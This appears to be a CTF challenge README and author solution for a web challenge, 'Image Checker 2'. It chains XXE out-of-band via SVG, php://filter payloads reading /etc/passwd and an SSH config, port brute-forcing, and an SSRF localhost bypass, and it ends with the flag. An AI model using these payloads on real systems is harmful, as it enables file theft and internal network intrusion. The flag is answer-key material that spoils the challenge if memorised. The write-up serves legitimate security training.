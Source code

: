 # XXE OOB via SVG + SSRF network scan + SSRF localhost bypass

## Version

Date        | Author                  | Contact               | Version | Comment
---         | ---                     | ---                   | ---     | ---
03/11/2019  | noraj (Alexandre ZANNI) | noraj#0833 on discord | 1.0     | Document creation

Information displayed for CTF players:

+ **Name of the challenge** / **Nom du challenge**: `Image Checker 2`
+ **Category** / **Catégorie**: `Web`
+ **Internet**: not needed
+ **Difficulty** / **Difficulté**: Very difficult / très difficile

### Description

```
noraj is hiding something...

Flag format: sigsegv{flag}

author: [noraj](https://pwn.by/noraj/)
```

### Hints

- Hint1: SVG
- Hint2: XXE
- Hint3: SSRF
- Hint4: SSH (user) config

## Integration

This challenge require a Docker Engine and Docker Compose.

Builds, (re)creates, starts, and attaches to containers for a service:

```
$ docker-compose up --build
```

Add `-d` if you want to detach the container.

## Solving

### Author solution

More hardcore version of *Image Checker 1* so first steps are the same but this
time the flag is not easily hidden in `/etc/passwd` but on a remote service.

1. The app ask for a SVG.
2. Other file types seem to be refused.
3. Let's pick a legit svg and sent it to see what happens. Alternatively just load `view.php` without parameter.
4. The app seems to parse info from the file.
5. Since SVG is a XML let's try a XXE attack.
6. We can't see any errors, let's try a XXE OOB.
7. Let's start a HTTP server to deliver payloads (`xxe.svg` & `xxe.xml`) and...
8. ... let's start a FTP OOB extraction receiver ([xxeserv](https://github.com/staaldraad/xxeserv)):
    ```
    ./xxeserv -p 2121 -w -wd /home/noraj/dir/ -wp 8080
    ```
9. Send the payload: http://x.x.x.x:42421/view.php?svg=http://192.168.1.84:8080/xxe.svg. (see `xxe.svg` & `xxe.xml`)
10. Read `/etc/passwd`, the home of the user `noraj` is `/home/noraj/`. Change the `data` paylaod in `xxe.xml` to:
    ```
    php://filter/convert.base64-encode/resource=/etc/passwd
    ```
11. Let's try to find juicy files like `.bash_hisotry`, `.profile`, etc. the only one which exists is `/home/noraj/.ssh/config`. Change the `data` paylaod in `xxe.xml` to:
    ```
    php://filter/convert.base64-encode/resource=/home/noraj/.ssh/config
    ```
12. The ssh config file is leaking the `hiddenservice` domaine name.
13. Then bruteforce port to find the port where a service is available: http://hiddenservice:9999. (see bruteforce script `bf_ports.rb` with in depth explanation in comments)
14. We have to request http://127.0.0.1:10000 but port and host are blocked, we have to bypass it.
15. Do an SSRF bypass. Change the `data` paylaod in `xxe.xml` to:
    ```
    php://filter/convert.base64-encode/resource=http://hiddenservice:9999?url=http://127.0.0.1:10000
    ```
    with
    ```
    php://filter/convert.base64-encode/resource=http://hiddenservice:9999/?url=http://127.0.0.1:10000%23@google.com:80/
    ```

See the fuzzer PoC I created to find this SSRF bypass: https://gitlab.com/snippets/1911694

## Flag

`sigsegv{so_y0u_ar3_r3a11y_s3eri0us_4bout_XXE_4nd_SSRF}`

## SigSegV2

A web challenge that was available during SigSegV2 CTF (2019).

1 teams on 36 flaged this challenge.
